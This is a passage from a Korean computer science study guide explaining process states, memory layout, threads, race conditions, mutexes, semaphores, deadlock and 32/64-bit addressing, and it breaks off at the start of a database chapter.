    Terminated --> [*] : 8. 자원 회수 및 PCB 삭제
```

1. **생성 상태 (New):** 프로세스가 막 생성되어 OS 커널이 PCB를 만들고 메모리 구조를 준비하는 단계입니다.
2. **준비 상태 (Ready):** CPU만 할당받으면 즉시 연산을 시작할 수 있는 상태로, 메모리에 모든 준비를 마치고 **Ready Queue**에서 대기 중인 상태입니다.
3. **실행 상태 (Running):** CPU 제어권을 얻어 실제로 기계어 명령어를 수행하고 있는 상태입니다.
4. **대기 / 블록 상태 (Waiting / Blocked):** 프로세스가 디스크에서 파일 읽기, 키보드 입력, 네트워크 패킷 수신 등 **느린 I/O 작업이 끝나기를 기다리는 상태**입니다. 이 상태에서는 CPU를 주어도 아무 일도 할 수 없으므로, OS는 CPU를 뺏어 다른 Ready 프로세스에 넘깁니다.
5. **종료 상태 (Terminated):** 프로세스가 모든 실행을 마치고 `exit()`을 호출했거나 오류로 종료된 상태입니다. OS는 할당했던 메모리와 자원을 회수하고 최종적으로 PCB를 정리합니다.

---

## 09. 프로세스와 스레드의 차이는 무엇인가요?

면접관이 컴퓨터 공학 전공자에게 던지는 단골 질문 1위이자, 실무 백엔드/시스템 프로그래밍의 성패를 가르는 가장 중요한 기초 개념입니다.

---

### 9.1 프로세스의 메모리 구조 (4대 영역)

운영체제가 하나의 프로세스를 메모리에 띄울 때, 그 가상 주소 공간은 다음과 같이 용도별로 엄격하게 4개 영역으로 분할됩니다.

```
+------------------------------------+  높은 메모리 주소 (0xFFFFFFFF...)
|            스택 (Stack)            |  ↓ 함수 호출 시 아래로 자람
|  (지역 변수, 매개변수, 복귀 주소)     |
+------------------------------------+
|                 │                  |
|                 ▼                  |
|          (동적 여유 공간)          |
|                 ▲                  |
|                 │                  |
+------------------------------------+
|             힙 (Heap)              |  ↑ 동적 할당(malloc/new) 시 위로 자람
+------------------------------------+
|      BSS 영역 (초기화 안 된 전역변수) |
+------------------------------------+
|      데이터 (Data) (초기화된 전역변수) |
+------------------------------------+
|            코드 (Text/Code)        |  (읽기 전용, 컴파일된 기계어 코드)
+------------------------------------+  낮은 메모리 주소 (0x00000000...)
```

1. **코드 영역 (Code / Text Segment):**  
   우리가 작성한 소스코드가 컴파일되어 번역된 순수한 기계어 명령어가 저장되는 공간입니다. 프로그램 실행 중에 코드가 스스로 바뀌면 대혼란이 일어나므로, 하드웨어적으로 **읽기 전용(Read-Only)**으로 보호됩니다.
2. **데이터 영역 (Data & BSS Segment):**  
   프로그램이 시작될 때 할당되어 프로그램이 완전히 종료될 때까지 메모리에 남아있는 **전역 변수(Global Variable)**와 **정적 변수(Static Variable)**가 저장됩니다.
   - **Data 영역:** 초기값이 있는 전역 변수 (예: `int count = 100;`)
   - **BSS 영역:** 초기값이 없는 전역 변수 (예: `int buffer[1024];` - 파일 크기를 줄이기 위해 실행 파일에는 크기 정보만 넣고 메모리 적재 시 0으로 일괄 초기화됨)
3. **힙 영역 (Heap Segment):**  
   프로그래머가 런타임에 필요에 따라 동적으로 할당하고 해제하는 메모리 공간입니다. C의 `malloc()/free()`, C++의 `new/delete`, Java나 Python의 객체 생성 시 사용됩니다. 낮은 주소에서 높은 주소 방향으로 자라납니다.
4. **스택 영역 (Stack Segment):**  
   함수 호출과 밀접하게 연관된 임시 메모리 공간입니다. 함수가 호출될 때 그 함수만의 **스택 프레임(Stack Frame)**이 생겨 지역 변수, 매개변수, 함수가 끝난 후 돌아갈 복귀 주소(Return Address)가 푸시(Push)되고, 함수가 종료되면 팝(Pop)되어 흔적도 없이 사라집니다. 높은 주소에서 낮은 주소 방향으로 거꾸로 자라납니다.

> [!NOTE]
> **스택 오버플로우(Stack Overflow)와 힙 오버플로우(Heap Overflow)**  
> 힙은 아래에서 위로 자라고, 스택은 위에서 아래로 자라납니다. 두 영역이 가운데 빈 공간을 공유하며 마주 보며 자라다가 서로의 영역을 침범하는 사건을 각각 오버플로우라고 부릅니다. 특히 재귀 함수가 종료 조건 없이 무한히 호출되면 스택 영역이 한계를 넘어 프로그램이 비정상 종료되는 스택 오버플로우가 발생합니다.

---

### 9.2 스레드(Thread): 프로세스 안의 실행 흐름

과거의 운영체제는 작업의 기본 단위를 오직 프로세스로만 다루었습니다. 하지만 인터넷과 멀티미디어가 발전하면서 문제가 발생했습니다.  
웹 브라우저를 예로 들면, 웹 페이지에서 이미지를 다운로드받으면서 동시에 사용자의 스크롤 입력을 받고, 플래시 동영상도 재생해야 합니다. 이를 전부 독립된 프로세스로 띄우자니 메모리가 너무 낭비되고 프로세스 간 전환 비용이 너무 컸습니다.

그래서 탄생한 경량화된 실행 단위가 바로 **스레드(Thread)**입니다. 스레드는 흔히 **"경량 프로세스(Light-Weight Process, LWP)"**라고 불립니다.

```
[프로세스 A (멀티 스레드 구조)]
┌───────────────────────────────────────────────────────────────┐
│  코드 영역 (Code)      데이터 영역 (Data)      힙 영역 (Heap)   │ <── 모든 스레드가 공유!
└───────────────────────────────────────────────────────────────┘
         │                       │                      │
   ┌─────┴─────┐           ┌─────┴─────┐          ┌─────┴─────┐
   │ 스레드 1  │           │ 스레드 2  │          │ 스레드 3  │
   │- PC 레지스터│          │- PC 레지스터│         │- PC 레지스터│
   │- 독립 스택 │           │- 독립 스택 │          │- 독립 스택 │
   └───────────┘           └───────────┘          └───────────┘
```

- **스레드가 공유하는 자원:**  
  같은 프로세스에 속한 스레드들은 **코드(Code), 데이터(Data), 힙(Heap) 영역, 그리고 프로세스에 열린 파일 디스크립터 등의 시스템 자원을 100% 공유**합니다.
- **스레드가 독립적으로 갖는 고유 자원:**  
  스레드마다 독립적인 함수 호출과 독립적인 실행 흐름을 가져야 하므로, 오직 **자신만의 스택(Stack) 영역**과 현재 어디까지 코드를 실행했는지를 나타내는 **PC(Program Counter) 레지스터 및 범용 레지스터 세트**, 그리고 커널의 **TCB(Thread Control Block)**만을 독자적으로 보유합니다.

---

### 9.3 멀티프로세스 vs 멀티스레드 심층 비교

소프트웨어를 설계할 때 동시 작업을 처리하기 위해 "프로세스를 여러 개 띄울 것인가(Multi-Process)", 아니면 "하나의 프로세스 안에 스레드를 여러 개 둘 것인가(Multi-Thread)"는 매우 중대한 엔지니어링 결정입니다.

| 비교 항목 | 멀티프로세스 (Multi-Process) | 멀티스레드 (Multi-Thread) |
| :--- | :--- | :--- |
| **메모리 독립성** | 완전히 독립된 메모리 공간을 가짐 (격리성 완벽) | Code, Data, Heap 공간을 모든 스레드가 공유 |
| **자원 소모량** | 프로세스마다 별도의 가상 메모리와 PCB가 필요해 **자원 소모 큼** | 스택 영역만 별도로 할당하므로 **메모리 오버헤드가 극히 적음** |
| **컨텍스트 스위칭 속도**| **느림.** 캐시 플러시, TLB 비우기, 페이지 테이블 교체 수반 | **매우 빠름.** 메모리 매핑이 동일하므로 캐시/TLB를 그대로 활용 가능 |
| **통신 비용 (IPC)** | 프로세스 간 벽이 높아 파이프, 소켓, 공유메모리 등 **복잡하고 느린 IPC 필요** | 힙(Heap)이나 전역 변수를 통해 **극도로 빠르고 간단하게 데이터 교환** |
| **안정성과 장애 격리 (Fault Isolation)** | **매우 뛰어남.** 한 프로세스가 크래시되어 죽어도 다른 프로세스는 멀쩡함 | **치명적.** 한 스레드가 메모리를 오염시키거나 죽으면 **프로세스 전체가 다운됨** |
| **동기화 이슈** | 프로세스 간 메모리가 분리되어 있어 데이터 충돌 위험 적음 | 공유 자원을 동시에 수정할 때 **경쟁 상태(Race Condition)와 데드락 위험 상존** |

#### [실제 아키텍처 사례] 구글 크롬 브라우저의 위대한 선택
과거의 웹 브라우저(인터넷 익스플로러 등)는 단일 프로세스 멀티스레드 구조였습니다. 이 방식은 메모리를 적게 먹었지만, 열어둔 10개의 탭 중 단 하나의 탭에서 플래시 오류나 무한 루프가 발생하면 **브라우저 전체가 한꺼번에 강제 종료**되며 작업 중이던 모든 탭이 날아가는 악몽을 유발했습니다.

구글은 2008년 **크롬(Chrome)**을 출시하면서 **멀티프로세스 아키텍처**를 도입했습니다.
- 브라우저의 메인 UI 프로세스, 렌더러 프로세스, GPU 프로세스, 플러그인 프로세스를 완전히 분리했습니다.
- 심지어 **웹 브라우저의 탭(Tab) 하나하나를 완전히 독립된 개별 프로세스**로 띄웠습니다.
- 그 결과 크롬은 RAM을 훨씬 많이 먹는다는 비판을 받았지만, 한 탭이 먹통이 되어도 "앗, 이런! 이 탭이 충돌했습니다"라는 메시지만 띄우고 다른 모든 탭은 아무 일 없다는 듯 쾌적하게 유지되는 압도적인 안정성을 무기로 전 세계 브라우저 시장을 평정했습니다.

---

## 10. 멀티 스레드를 활용한 동시 수행과 동기화

멀티스레드는 메모리를 절약하고 속도를 비약적으로 끌어올리는 강력한 무기이지만, 양날의 검입니다. 모든 스레드가 하나의 힙과 데이터 영역을 공유하기 때문에, **"두 개 이상의 스레드가 동일한 자원에 동시에 접근하여 쓰기 작업을 수행할 때"** 상상을 초월하는 버그가 발생합니다.

---

### 10.1 임계 구역(Critical Section)과 경쟁 상태(Race Condition)

#### 은행 계좌 잔액의 비극 (Race Condition 예제)
어느 은행 계좌에 잔액 $1,000가 들어있습니다.  
스레드 A는 100달러를 입금(`balance += 100`)하려 하고, 스레드 B는 50달러를 출금(`balance -= 50`)하려 합니다.  
정상적으로 처리된다면 최종 잔액은 $1,050가 되어야 합니다.

하지만 고급 프로그래밍 언어의 한 줄(`balance += 100`)은 CPU 기계어 수준에서는 3단계로 쪼개집니다.
1. `LOAD balance, R1` (메모리의 잔액을 CPU 레지스터 R1으로 읽어옴)
2. `ADD R1, 100` (레지스터 R1의 값에 100을 더함)
3. `STORE R1, balance` (계산된 레지스터 값을 메모리의 balance에 저장함)

만약 스레드 A와 B가 절묘한 타이밍에 CPU 컨텍스트 스위칭을 겪는다면 어떤 일이 벌어질까요?

```mermaid
sequenceDiagram
    autonumber
    participant A as 스레드 A (100달러 입금)
    participant M as 메모리 balance ($1000)
    participant B as 스레드 B (50달러 출금)

    A->>M: 1. LOAD balance (R1_A = 1000)
    Note over A: 2. ADD R1_A, 100 (R1_A = 1100)
    Note over A,B: [타이머 인터럽트로 스레드 B로 컨텍스트 스위칭!]
    B->>M: 3. LOAD balance (R1_B = 1000)
    Note over B: 4. SUB R1_B, 50 (R1_B = 950)
    B->>M: 5. STORE R1_B -> balance ($950 저장!)
    Note over A,B: [스레드 A로 다시 컨텍스트 스위칭!]
    A->>M: 6. STORE R1_A -> balance ($1100 저장!)
    Note over M: 최종 잔액: $1100 (스레드 B의 출금 50달러가 감쪽같이 증발!)
```

- **경쟁 상태 (Race Condition):** 두 개 이상의 스레드가 공유 자원에 동시에 접근하여 타이밍이나 실행 순서에 따라 결과값이 매번 달라지는 불안정한 상태입니다.
- **임계 구역 (Critical Section):** 위 예시에서 `balance` 변수처럼, **둘 이상의 스레드가 동시에 접근해서는 절대로 안 되는 공유 자원을 접근/수정하는 코드 영역**을 의미합니다.

#### 임계 구역 문제 해결을 위한 3대 필수 조건
운영체제와 동시성 이론에서 임계 구역을 올바르게 보호하기 위해서는 다음 3가지 수학적 조건이 반드시 충족되어야 합니다.
1. **상호 배제 (Mutual Exclusion):** 어떤 스레드가 임계 구역 안에서 코드를 실행 중이라면, 다른 어떤 스레드도 이 임계 구역에 들어올 수 없다.
2. **진행 (Progress):** 임계 구역에 들어가 있는 스레드가 아무도 없다면, 들어가고자 하는 스레드들 중에서 누가 들어갈지 지체 없이 결정해야 한다. (아무도 못 들어가는 무한 대착 상태 방지)
3. **한정 대기 (Bounded Waiting):** 어떤 스레드가 임계 구역에 들어가겠다고 요청한 후부터 허가를 받을 때까지, 다른 스레드들이 임계 구역에 들어가는 횟수에는 제한이 있어야 한다. (특정 스레드가 영원히 들어가지 못하고 굶어 죽는 기아 상태(Starvation) 방지)

---

### 10.2 동기화 기법: 뮤텍스(Mutex)와 세마포어(Semaphore)

임계 구역에 하나의 스레드만 안전하게 들어갈 수 있도록 통제하는 대표적인 동기화 도구들입니다.

```mermaid
flowchart TD
    subgraph Mutex_Sec ["뮤텍스 (Mutex: 이진 자물쇠)"]
        M_KEY["단 1개의 화장실 열쇠"]
        M_USER["스레드 A (열쇠 획득 후 입장)"]
        M_WAIT["스레드 B (열쇠 반납될 때까지 대기)"]
        M_KEY --> M_USER
    end

    subgraph Sem_Sec ["세마포어 (Semaphore: 카운터 신호기)"]
        S_CNT["카운터 = 3 (사용 가능한 자원 수)"]
        S1["스레드 1 (자원 사용 중)"]
        S2["스레드 2 (자원 사용 중)"]
        S3["스레드 3 (자원 사용 중)"]
        S_WAIT["스레드 4 (카운터가 0이므로 대기)"]
        S_CNT --> S1
        S_CNT --> S2
        S_CNT --> S3
    end
```

#### 1) 뮤텍스 (Mutex, Mutual Exclusion)
- **비유:** 식당의 **화장실 열쇠 1개**.
- 화장실에 들어가려는 손님(스레드)은 반드시 카운터에서 열쇠를 쥐고 들어가 문을 걸어 잠가야 합니다. 다른 손님은 열쇠가 반납될 때까지 화장실 밖에서 기다려야 합니다.
- **특징:** 오직 **열쇠를 획득한 바로 그 스레드만이 락을 해제(Unlock)**할 수 있습니다. (소유권 개념 존재)

#### 2) 세마포어 (Semaphore)
- **비유:** 화장실 칸이 3개 있고, 입구 전광판에 잔여 칸 수가 표시되는 고속도로 휴게소 화장실.
- 1965년 에츠허르 다익스트라(Edsger Dijkstra)가 제안한 동기화 도구로, 공유 자원의 개수가 여러 개(N개)일 때 사용합니다.
- 정수형 카운터 변수 S와 두 개의 원자적(Atomic) 연산으로 구성됩니다.
  - **`P()` 혹은 `wait()`:** 자원을 요청합니다. 카운터 S를 1 감소시킵니다. 만약 S가 음수가 되면 자원이 없다는 뜻이므로 대기 큐에 들어갑니다.
  - **`V()` 혹은 `signal()`:** 자원을 반납합니다. 카운터 S를 1 증가시키고, 대기 큐에서 기다리던 스레드 하나를 깨워줍니다.
- **특징:** 락을 건 스레드가 아니더라도, 다른 스레드가 신호(`signal()`)를 보내 카운터를 올려줄 수 있습니다. (소유권이 없음)
  - 카운터가 1인 세마포어를 **이진 세마포어(Binary Semaphore)**라고 부르며, 뮤텍스와 유사하게 동작합니다.

> [!TIP]
> **스핀락(Spinlock) vs 블로킹(Blocking) 뮤텍스**  
> - **스핀락:** 락을 얻을 때까지 CPU를 100% 쓰면서 `while(!lock)` 루프를 맹렬히 도는 방식(바쁜 대기, Busy Waiting). 락이 아주 짧은 시간(수십 나노초) 안에 풀릴 것이 확실하다면 컨텍스트 스위칭 비용이 없어 유리합니다.
> - **블로킹 뮤텍스:** 락을 얻지 못하면 프로세스를 즉시 대기(Sleep/Blocked) 상태로 전환하고 CPU를 다른 작업에 양보합니다. 임계 구역이 길거나 I/O가 포함되어 있다면 무조건 블로킹 방식을 써야 CPU 낭비를 막을 수 있습니다.

---

### 10.3 데드락(Deadlock, 교착 상태): 영원히 끝나지 않는 대치

멀티스레드 환경에서 자원을 보호하겠다고 락(Lock)을 남발하다 보면, 모든 스레드가 서로가 쥐고 있는 자원이 풀리기만을 기다리며 시스템 전체가 얼어붙는 최악의 참사가 일어납니다. 이를 **데드락(Deadlock, 교착 상태)**이라고 부릅니다.

#### 철학자들의 만찬 문제 (Dining Philosophers Problem)
원형 식탁에 다섯 명의 철학자가 앉아 있고, 철학자들 사이마다 포크가 하나씩 총 5개 놓여 있습니다. 철학자는 스파게티를 먹기 위해 **반드시 양옆의 포크 2개를 모두 쥐어야만** 식사를 할 수 있습니다.

만약 모든 철학자가 동시에 배가 고파서 **동시에 자신의 왼쪽에 있는 포크를 집어 들었다면** 어떻게 될까요?
- 모든 철학자가 왼쪽 포크를 쥔 채, 오른쪽 포크가 놓여지기만을 멍하니 기다립니다.
- 아무도 포크를 먼저 내려놓지 않으므로, 다섯 명 모두 영원히 식사를 하지 못하고 굶어 죽고 맙니다.

```mermaid
flowchart LR
    P1["스레드 1"] -->|자원 A 소유| RA["자원 A (Lock)"]
    RA -.->|자원 A 요청 대기| P2["스레드 2"]
    P2 -->|자원 B 소유| RB["자원 B (Lock)"]
    RB -.->|자원 B 요청 대기| P1
```

#### 데드락 발생의 4대 필수 조건 (Coffman Conditions)
데드락은 다음 4가지 조건이 **동시에 성립할 때만** 발생합니다. 단 하나라도 깨뜨릴 수 있다면 데드락은 절대 일어나지 않습니다.

| 데드락 성립 조건 | 의미 | 타파(해결) 전략 |
| :--- | :--- | :--- |
| **1. 상호 배제 (Mutual Exclusion)** | 한 번에 한 스레드만 자원을 독점할 수 있어야 한다. | 읽기 전용 자원은 공유를 허용하거나, Lock-free 알고리즘 사용 |
| **2. 점유와 대기 (Hold and Wait)** | 자원을 하나 쥔 채로, 다른 스레드가 쥔 자원을 추가로 요구하며 대기한다. | 스레드가 시작할 때 필요한 모든 자원을 한꺼번에 할당받거나, 아무것도 쥐지 않은 상태에서만 요청 허용 |
| **3. 비선점 (No Preemption)** | 다른 스레드가 쥐고 있는 자원을 강제로 빼앗을 수 없다. | 우선순위가 높은 스레드가 필요로 하면 기존 스레드의 자원을 강제로 선점(회수)할 수 있게 허용 |
| **4. 환형 대기 (Circular Wait)** | 대기하는 스레드들의 관계가 원형 고리(Cycle)를 이루고 있다. | **가장 실무적인 해결책!** 모든 자원에 고유한 일련번호를 매기고, **반드시 번호가 낮은 순서에서 높은 순서대로만 자원을 획득하도록 규칙을 강제함** |

#### 데드락 처리의 실무적 접근법
1. **예방 (Prevention):** 위 4대 조건 중 하나가 성립하지 못하도록 사전에 시스템 규칙을 설계합니다. (가장 널리 쓰이는 방법은 자원 할당 순서의 번호 매기기입니다.)
2. **회피 (Avoidance):** 자원을 요청할 때마다 다익스트라의 **은행원 알고리즘(Banker's Algorithm)** 등을 가동하여, 이 자원을 줬을 때 시스템이 안전 상태(Safe State)를 유지할 수 있을 때만 빌려줍니다.
3. **검출 및 회복 (Detection & Recovery):** 데드락을 사전에 막지 않고 내버려 두었다가, 주기적으로 자원 할당 그래프(Resource Allocation Graph)에 사이클이 생겼는지 검사합니다. 데드락이 발견되면 관련 프로세스 중 하나를 강제 종료(Kill)하거나 자원을 강탈하여 회복합니다.
4. **무시 (타조 알고리즘, Ostrich Algorithm):** 머리를 모래 속에 파묻고 위험을 무시하는 타조처럼, "데드락은 아주 드물게 발생하므로 이를 막기 위해 엄청난 성능 오버헤드를 감수하느니 그냥 모른 척하고 발생하면 재부팅한다"는 실용주의적 접근입니다. 놀랍게도 Windows나 Linux 같은 범용 현대 OS는 대부분 이 방식을 채택하고 있으며, 동기화 버그 방지는 애플리케이션 개발자의 몫으로 넘깁니다.

---

## (+) 32비트와 64비트는 무엇이 다른가요?

컴퓨터를 살 때나 운영체제를 설치할 때, 혹은 프로그래밍 언어를 설치할 때 우리는 항상 "32-bit (x86)"과 "64-bit (x64 / ARM64)" 중 하나를 선택하라는 질문을 마주합니다. 도대체 이 32와 64라는 숫자는 무엇을 의미하며, 소프트웨어 세계에 어떤 거대한 차이를 만들어낼까요?

---

### 11.1 '비트(bit)'의 근본적 의미: CPU의 연산 폭과 도로 폭

여기서 말하는 32비트, 64비트는 CPU가 한 번의 사이클에 처리할 수 있는 **기본 데이터 단위(워드, Word의 크기)**이자, **내부 범용 레지스터의 크기**, 그리고 메모리 주소를 가리키는 **주소 버스의 폭**을 의미합니다.

```
[32비트 CPU 레지스터]
┌────────────────────────────────┐
│ 32비트 (4바이트)               │  (한 번에 0 ~ 42억까지의 정수 연산 가능)
└────────────────────────────────┘

[64비트 CPU 레지스터]
┌────────────────────────────────────────────────────────────────┐
│ 64비트 (8바이트)                                               │  (한 번에 0 ~ 1,844경까지의 정수 연산 가능)
└────────────────────────────────────────────────────────────────┘
```

1. **연산 능력의 차이:**  
   32비트 CPU는 정수를 표현할 때 2³² = 4,294,967,296 (약 42억)까지의 수치만 한 번에 계산할 수 있습니다. 그보다 큰 64비트 정수를 계산하려면 레지스터를 두 개 엮어서 여러 번 나누어 연산해야 하므로 성능이 떨어집니다.  
   반면 64비트 CPU는 2⁶⁴ = 18,446,744,073,709,551,616 (약 1,844경)이라는 천문학적인 숫자를 단 한 클록에 연산해 냅니다.
2. **데이터 버스 대역폭:**  
   메모리에서 CPU로 데이터를 퍼 나를 때 32비트는 한 번에 4바이트씩 나르지만, 64비트는 한 번에 8바이트씩 두 배의 폭으로 퍼 나릅니다.

---

### 11.2 주소 지정 가능 메모리 한계의 수학적 원리 (4GB의 벽)

32비트에서 64비트로의 전환을 강제한 가장 결정적인 원인은 바로 **메모리(RAM) 용량의 한계**였습니다.

컴퓨터에서 메모리의 각 바이트(1 Byte)는 자신만의 고유한 일련번호(주소)를 가집니다.  
우편배달부가 편지를 배달하려면 집집마다 고유한 도로명 주소가 있어야 하듯, CPU가 메모리에 데이터를 읽고 쓰려면 그 바이트의 주소를 지정할 수 있어야 합니다.

#### 32비트 주소 체계의 수학적 한계
32비트 CPU의 주소 레지스터와 주소 버스는 32가닥의 전선으로 이루어져 있습니다.  
각 전선이 0 또는 1의 전기 신호를 띨 수 있으므로, 32비트로 표현할 수 있는 서로 다른 주소의 총 가짓수는 정확히 다음과 같습니다.

$$
2^{32} = 4,294,967,296  개 (주소)
$$

각 주소마다 1바이트씩 대응되므로, 32비트 CPU가 물리적으로 가리킬 수 있는 최대 메모리 용량은:

$$
4,294,967,296  바이트 = 4,194,304  KB = 4,096  MB = **4 GB**
$$

이것이 바로 컴퓨터 역사에서 악명 높았던 **"4GB의 벽"**입니다.  
2000년대 후반, 컴퓨터에 8GB나 16GB RAM을 꽂아도 32비트 윈도우를 깔면 컴퓨터가 **최대 3.25GB ~ 3.5GB밖에 인식하지 못하는 기현상**이 발생했습니다. 4GB 공간 중 상위 수백 MB 영역을 그래픽카드나 메인보드 하드웨어 장치를 제어하기 위한 주소(MMIO, Memory-Mapped I/O)로 예약해 두었기 때문에 실제 쓸 수 있는 RAM은 3GB 남짓에 불과했던 것입니다.

#### 64비트 주소 체계의 신세계
그렇다면 64비트 CPU가 표현할 수 있는 주소 공간은 얼마나 될까요?

$$
2^{64}  바이트 = 18,446,744,073,709,551,616  바이트 = 16  엑사바이트 (EB)
$$

16 엑사바이트는 **약 1,700만 테라바이트(TB)**에 달하는 상상을 초월하는 용량입니다. 인류가 앞으로 수십 년 동안 컴퓨터 한 대에 물리적으로 꽂을 수 있는 양을 아득히 초월합니다.

> [!NOTE]
> **현실의 64비트 구현: 48비트 / 57비트 가상 주소**  
> CPU 제조사들은 하드웨어 회로 비용과 페이지 테이블 크기를 최적화하기 위해, 64비트 주소 중 하위 48비트(256TB) 혹은 57비트(128PB)만을 실제 가상 주소선으로 구현하고 있습니다. 이것만으로도 현재와 미래의 모든 대규모 데이터센터와 슈퍼컴퓨터를 감당하기에 차고 넘칩니다.

---

### 11.3 64비트가 소프트웨어 개발자와 실무에 미치는 영향

| 비교 항목 | 32비트 환경 (x86) | 64비트 환경 (x64 / ARM64) | 실무적 영향 및 주의점 |
| :--- | :--- | :--- | :--- |
| **포인터(Pointer) 크기**| **4 바이트 (32비트)** | **8 바이트 (64비트)** | 64비트로 컴파일하면 메모리 주소를 담는 모든 포인터 변수의 크기가 두 배로 늘어납니다. 따라서 동일한 프로그램이라도 64비트 버전이 **RAM을 약 20~30% 더 많이 소모**하며, 캐시 효율이 약간 떨어질 수 있습니다. |
| **대용량 인메모리 DB** | 프로세스당 최대 2~4GB 메모리 제약으로 대규모 데이터 처리 불가능 | 수백 GB~수 TB의 데이터를 메모리에 통째로 올려두고 초고속 연산 가능 | Redis, Elasticsearch, 대규모 RDBMS 및 AI 딥러닝 프레임워크 구동의 절대적 전제 조건입니다. |
| **2038년 문제 (Year 2038 Problem)** | **시한폭탄 존재**<br>(32비트 부호 있는 정수로 시간 표현 시 2038년 오버플로우 발생) | **영구 해결**<br>(64비트 정수로 시간 표현 시 약 2,920억 년 동안 안전) | 1970년 1월 1일 0시(Unix Epoch)부터 흐른 초를 32비트 정수(`int32_t`)로 세면 **2038년 1월 19일 03시 14분 07초**에 최댓값(2,147,483,647)을 치고 음수(-21억)로 롤오버되어 1901년으로 타임슬립하는 재앙이 발생합니다. 64비트 시스템은 이 문제를 완전히 종식시켰습니다. |

---

## 에필로그: 코드는 물리적 실체 위에서 춤춘다

우리는 지금까지 컴퓨터의 기원인 에니악부터 시작하여, 폰 노이만의 하드웨어 아키텍처, 캐시와 가상 메모리의 마법, 동시성과 병렬성, 운영체제 커널의 이중 모드 보호, 그리고 멀티스레드 동기화와 64비트의 광활한 주소 체계까지 숨 가쁘게 달려왔습니다.

```mermaid
graph TD
    A["프로그래머의 고급 언어 코드<br>(Java, Python, C++, JS)"] -->|컴파일 및 시스템 콜| B["운영체제 커널 (OS Kernel)<br>프로세스 / 가상 메모리 / 스케줄링"]
    B -->|특권 명령어 & 페이지 테이블 매핑| C["컴퓨터 구조 (CPU & Memory)<br>ALU, 캐시, MMU, 시스템 버스"]
    C -->|전기 신호 & 전압 제어| D["물리 반도체 하드웨어<br>수십억 개의 트랜지스터와 실리콘 회로"]
```

현대의 고수준 프레임워크와 클라우드 환경은 소프트웨어 엔지니어에게 하드웨어의 복잡성을 거의 완벽하게 감추어 줍니다. 덕분에 우리는 메모리 주소 하나 직접 지정하지 않고도 복잡한 비즈니스 웹 서비스를 뚝딱 만들어낼 수 있습니다.

하지만 시스템이 극한의 트래픽을 감당해야 하는 대규모 분산 환경에 들어서거나, 원인을 알 수 없는 간헐적인 메모리 누수와 교착 상태를 디버깅해야 할 때, 혹은 데이터베이스 쿼리의 병목을 극복해야 하는 순간이 오면 **언제나 해답은 가장 낮은 곳, 컴퓨터 구조와 운영체제의 기본 원리 속에 숨어 있습니다.**

우리가 작성한 코드는 추상적인 관념이 아니라, 물리적인 전압과 실리콘 칩, 그리고 운영체제의 정교한 지휘 아래 움직이는 물리적 실체입니다. 이 원리를 마음 깊이 새긴 엔지니어는 결코 하드웨어와 타협하지 않는 견고하고 우아한 시스템을 설계해 낼 수 있을 것입니다.


---

# PART 07. 데이터베이스 기술 (Database Technologies)

> **"데이터는 현대 비즈니스의 가장 값진 원유이며, DBMS는 이를 안전하게 정제하고 지켜내는 거대한 금고입니다."**  
> 오늘날 우리가 사용하는 모든 소프트웨어의 궁극적인 목적은 데이터를 처리하고 영구히 보존하며 유의미한 가치로 환원하는 것입니다. 프론트엔드의 화려한 UI나 백엔드의 복잡한 비즈니스 로직도, 밑바닥에서 데이터를 신뢰성 있게 지탱해 주는 데이터베이스가 없다면 모래 위에 지은 성에 불과합니다.  
> 이번 파트에서는 전통적인 파일 시스템의 원초적 한계부터 시작하여, 관계형 데이터베이스(RDBMS)의 수학적 설계 철학과 ERD 모델링, 무결성을 수호하는 트랜잭션과 ACID, 디스크 I/O를 획기적으로 줄이는 B-Tree 인덱스 튜닝, 안전하고 확장 가능한 3-Tier 아키텍처의 설계 미학, 대규모 분산 트래픽을 견디는 NoSQL의 혁신, 데이터 중복을 제거하는 정규화와 실전 반정규화, 그리고 재해 복구(DR)의 최후 보루인 데이터베이스 백업 전략까지 현업 DBA 및 데이터 아키텍트의 깊이 있는 실전 노하우를 총망라하여 전달합니다.

---

## 01. 데이터베이스(DBMS)의 이해
> **파일 시스템의 치명적 한계, DBMS의 탄생과 3단계 데이터 독립성, RDBMS의 관계 대수와 SQL 체계**

현대 애플리케이션의 뒤편에는 언제나 데이터베이스가 존재합니다. 하지만 컴퓨터 공학의 태동기에는 전용 데이터베이스라는 소프트웨어가 존재하지 않았습니다. 당시 프로그래머들은 운영체제가 제공하는 일반 파일 시스템(File System)에 데이터를 텍스트나 바이너리 형태로 직접 읽고 썼습니다. 과연 파일 시스템에는 어떤 치명적인 한계가 있었기에 데이터베이스 관리 시스템(DBMS)이라는 거대한 소프트웨어가 탄생하게 되었을까요?

---

### 1.1 파일 시스템(File System)의 한계와 고통

과거에는 인사 관리 프로그램, 급여 계산 프로그램, 사원 복지 프로그램이 각각 자신만의 텍스트 파일(`emp_hr.txt`, `emp_pay.txt`, `emp_welfare.txt`)을 생성하여 사원 정보를 관리했습니다. 이러한 파일 처리 방식은 서비스 규모가 커지면서 다음과 같은 재앙적인 문제들을 야기했습니다.

```mermaid
flowchart TD
    subgraph FileSystem["기존 파일 시스템의 문제점"]
        A[인사 프로그램] -->|직접 접근| F1[emp_hr.txt<br/>홍길동, 서울시 강남구]
        B[급여 프로그램] -->|직접 접근| F2[emp_pay.txt<br/>홍길동, 서울시 서초구]
        C[복지 프로그램] -->|직접 접근| F3[emp_welfare.txt<br/>홍길동, 부산시 해운대구]
    end
    
    style F1 fill:#ffdddd,stroke:#ff6666
    style F2 fill:#ffdddd,stroke:#ff6666
    style F3 fill:#ffdddd,stroke:#ff6666
```

1. **데이터 중복성(Data Redundancy)**
   - 동일한 사원의 기본 정보(사번, 이름, 주소, 연락처)가 여러 파일에 중복되어 저장됩니다. 이는 고가의 저장 장치를 낭비할 뿐만 아니라 저장 비용을 가중시킵니다.
2. **데이터 불일치 및 무결성 결여(Data Inconsistency & Lack of Integrity)**
   - 사원이 이사를 하여 주소가 바뀌었을 때, 인사 담당자가 `emp_hr.txt`의 주소만 수정하고 급여 담당자가 `emp_pay.txt`를 수정하지 않는다면 동일 인물의 주소가 시스템마다 서로 달라지는 **데이터 불일치(Inconsistency)**가 발생합니다. 데이터의 신뢰성(Integrity)이 완전히 무너집니다.
3. **데이터 종속성(Data Dependency)**
   - 응용 프로그램이 파일의 물리적 저장 구조(데이터 구분자, 바이트 오프셋, 레코드 순서)에 종속됩니다. 만약 사번 체계가 5자리 숫자에서 8자리 문자열로 변경되면, 그 파일을 읽고 쓰던 수십 개의 응용 프로그램 코드를 일일이 찾아 열고 소스 코드를 재작성 및 재컴파일해야 했습니다.
4. **동시성 제어(Concurrency Control)의 부재**
